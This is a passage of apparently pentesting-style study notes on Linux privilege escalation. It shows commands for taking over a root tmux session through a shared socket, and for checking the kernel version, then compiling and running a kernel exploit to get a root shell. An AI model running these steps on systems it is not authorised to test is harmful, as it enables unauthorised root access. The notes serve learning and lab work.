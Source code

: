         ps aux | grep tmux
        # this shows the tmux command

        ls -la /shareds
        # check permissions

        id
        # review group membership
        # we are part of 'devs'

        tmux -S /shareds
        # attach to tmux session
        # we have root priv
        ```

## Linux Internals-based Privilege Escalation

* Kernel exploits:

    ```sh
    uname -a
    # check kernel level, OS version

    cat /etc/lsb-release
    # check for any exploits associated with this

    # for example, linux 4.4.0-116-generic kernel on Ubuntu 16.04
    # is vulnerable to a local privesc exploit

    # download the exploit code and prepare it
    gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit

    ./kernel_exploit
    # gives root shell
    ```
